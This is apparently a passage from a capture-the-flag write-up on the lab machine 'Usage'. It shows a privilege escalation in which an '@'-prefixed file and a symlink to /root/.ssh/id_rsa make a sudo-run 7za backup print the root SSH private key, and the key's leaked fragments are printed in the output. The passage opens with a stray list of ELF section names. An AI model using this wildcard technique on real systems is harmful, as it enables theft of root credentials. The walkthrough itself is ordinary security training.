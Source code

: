 ```bash
.fini_array
.dynamic
.data
.bss
.comment
```


This line in particular suggests that the above script has a security flaw: `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`.


7za is used for compressing files for archiving. Here a wildcard is used which can be exploited. A guide to exploiting wildcard vulnerabilities can be found in: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks.


To exploit this, a file called "@root.txt" was created in /var/www/html,which is where the project is contained which can be archived. "@root" has a symlink to the id_rsa file in /root/.ssh. Then the binary /usr/bin/usage_management was executed and the project is archived. During the archiving process, the contents of the root user's SSH private key will be outputted:


```bash
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa root.txt
xander@usage:/var/www/html$ ls
project_admin  @root.txt  root.txt  usage_blog
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7513 32-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 55032454

Scanning the drive:
          
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----


WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW


WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi


WARNING: No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q


WARNING: No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs


```